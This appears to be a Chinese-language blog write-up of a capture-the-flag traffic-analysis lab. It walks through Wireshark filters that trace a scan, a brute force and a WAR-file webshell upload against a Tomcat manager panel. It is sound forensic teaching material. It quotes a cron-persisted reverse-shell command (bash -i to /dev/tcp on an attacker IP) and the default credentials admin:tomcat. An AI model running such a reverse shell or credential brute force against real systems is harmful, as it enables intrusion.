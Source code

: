 # 第六章-流量特征分析-常见攻击事件Tomcat

  
  
&lt;!--more--&gt;  
## 0x00 环境分析  
```  
1、在web服务器上发现的可疑活动,流量分析会显示很多请求,这表明存在恶意的扫描行为,通过分析扫描的行为后提交攻击者IP  flag格式：flag{ip}，如：flag{127.0.0.1}  
2、找到攻击者IP后请通过技术手段确定其所在地址 flag格式: flag{城市英文小写}  
3、哪一个端口提供对web服务器管理面板的访问？ flag格式：flag{2222}  
4、经过前面对攻击者行为的分析后,攻击者运用的工具是？ flag格式：flag{名称}  
5、攻击者拿到特定目录的线索后,想要通过暴力破解的方式登录,请通过分析流量找到攻击者登录成功的用户名和密码？ flag格式：flag{root-123}  
6、攻击者登录成功后,先要建立反弹shell,请分析流量提交恶意文件的名称？ flag格式：flag{114514.txt}  
7、攻击者想要维持提权成功后的登录,请分析流量后提交关键的信息？ flag提示,某种任务里的信息  
```  
## 0x01  
1、在web服务器上发现的可疑活动,流量分析会显示很多请求,这表明存在恶意的扫描行为,**通过分析扫描的行为后提交攻击者IP**  
过滤一下`http`请求，在按照`Source`排序`http.request==1`  
可以看到`14.0.0.120`这个ip请求次数很多，而且很多都是可疑请求，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041916714.png)
`flag{14.0.0.120}`  
2、找到攻击者IP后请通过技术手段确定其所在地址  
`ip138`查询`ip`地址  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041918206.png)
`flag{guangzhou}`  
3、哪一个端口提供对web服务器管理面板的访问？  
可以看到黑客一直在爆破`8080`端口  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041920164.png)
所以`8080`端口便是`tomcat`的管理面板  
4、经过前面对攻击者行为的分析后,攻击者运用的工具是？  
随便点了几个黑客扫描的请求，发现其`User-Agent`中存在请求头  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041922432.png)
`flag{gobuster}`  
5、攻击者拿到特定目录的线索后,想要通过暴力破解的方式登录,请通过分析流量找到攻击者登录成功的用户名和密码？  
黑客在爆破`tomcat`的管理面板，这里过滤请求  
`http.request.uri==&#34;/manager/html&#34; || http.response == 1`  
再按照时间排序  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041923193.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041924278.png)
`YWRtaW46dG9tY2F0`解密得到`admin:tomcat`  
`flag{admin-tomcat}`  
6、攻击者登录成功后,先要建立反弹shell,请分析流量提交恶意文件的名称？  
看到了请求`/upload`目录  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041927247.png)
发送了一个`JXQOZY.war`文件  
`flag{JXQOZY.war}`  
8、攻击者想要维持提权成功后的登录,请分析流量后提交关键的信息？  
题目描述是维权，所以搜索一下关键信息`/bin`  
`tcp contains &#34;/bin&#34;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406041955338.png)
可以看到是定时任务进行了权限维持  
`flag{/bin/bash -c &#39;bash -i &gt;&amp; /dev/tcp/14.0.0.120/443 0&gt;&amp;1&#39;}`  

---

> Author: N1Rvana  
> URL: http://localhost:1313/%E7%AC%AC%E5%85%AD%E7%AB%A0-%E6%B5%81%E9%87%8F%E7%89%B9%E5%BE%81%E5%88%86%E6%9E%90-%E5%B8%B8%E8%A7%81%E6%94%BB%E5%87%BB%E4%BA%8B%E4%BB%B6-tomcat/  

